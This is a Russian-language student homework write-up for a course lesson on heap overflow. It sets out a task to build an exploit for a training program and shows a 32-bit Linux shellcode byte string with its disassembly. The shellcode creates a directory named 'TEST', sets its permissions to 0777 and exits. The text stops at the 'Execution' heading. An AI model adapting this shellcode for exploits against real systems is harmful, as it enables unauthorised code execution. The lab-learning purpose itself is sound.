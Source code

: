 # Орехов Роман ДЗ № 2
Урок 5. Видеоурок 3 - Переполнение кучи

Разработать эксплойт, который бы содержал шелл-код с полезной нагрузкой для программы prog5 из видео 0х03.02. Обязательно убедиться в работоспособности шелл-кода (шелл-код будет предоставлен).

`$ cat mkdir_shell.str`

`\x31\xc0\x50\x68\x54\x45\x53\x54\xb0\x27\x89\xe3\x66\x41\xcd\x80\xb0\x0f\x66\xb9\xff\x01\xcd\x80\x31\xc0\x40\xcd\x80\xb0\x01\x31\xdb\xcd\x80`


`$ objdump -D -M intel mkdir_shell | grep -A16 "<shellcode>"`

```
0804a040 <shellcode>:
804a040: 31 c0 xor eax,eax
804a042: 50 push eax
804a043: 68 54 45 53 54 push 0x54534554
804a048: b0 27 mov al,0x27
804a04a: 89 e3 mov ebx,esp
804a04c: 66 41 inc cx
804a04e: cd 80 int 0x80
804a050: b0 0f mov al,0xf
804a052: 66 b9 ff 01 mov cx,0x1ff
804a056: cd 80 int 0x80
804a058: 31 c0 xor eax,eax
804a05a: 40 inc eax
804a05b: cd 80 int 0x80
804a05d: b0 01 mov al,0x1
804a05f: 31 db xor ebx,ebx
804a061: cd 80 int 0x80
```
Выполнение:
